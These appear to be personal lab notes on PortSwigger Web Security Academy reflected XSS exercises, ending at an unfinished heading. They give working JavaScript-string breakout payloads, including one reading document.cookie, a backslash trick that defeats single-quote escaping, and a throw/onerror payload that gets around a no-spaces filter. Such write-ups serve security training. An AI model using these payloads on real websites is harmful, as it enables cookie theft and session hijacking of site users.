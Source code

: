 ### Reflected XSS into a JavaScript string with angle brackets HTML-Encoded
Submit a random alphanumeric string in the vulnerable source

View the page source of the submitted string and notice the string is put inside a javascript string

Since angle brackets are html encoded, we cant break out of the script tag, however we can break out of the javascript string
```
';alert(document.cookie)//
# The single quote and semicolon ends the original javascript string, then gives a new javascript string that pops up an alert
```

### Reflected XSS into a JavaScript string with angle brackets and double quotes HTML-Encoded and single quotes escaped
Submit a random alphanumeric string in the vulnerable source

View the page source of the submitted string and notice the string is put inside a javascriipt string

Normally we would escape the javascript string or escape the script tag entirely, but because of some restrictions we can't do that

Assume an attacker tries to escape the javascript string with below payload
```
';alert()//
```
Since the website escapes single quotes, the javascript string will not be terminated

The payload gets converted into \';alert()//

However, we can bypass that restriction by supplying a backslash beforehand
```
\';alert()//
# The payload gets converted to \\';alert()//
# The first backslash means that the second backslash is interpreted literally and not as a speciacl characters
# This means that the quoute is now interpreted as a string terminator
```

### Reflected XSS in a JavaScript url with some characters blocked
Visit the below url
```
https://0ab200ab03547f5cc0a1297300f50039.web-security-academy.net/post?postId=5&%27},x=x=%3E{throw/**/onerror=alert,1337},toString=x,window%2b%27%27,{x:%27
# The throw statement is used, separated with a blank comment in order to get round the no spaces restriction.
# The alert function is assigned to the onerror exception handler. 
```

### Making use of HTML-Encoding
Submit a random alphanumeric string in the vulnerable source
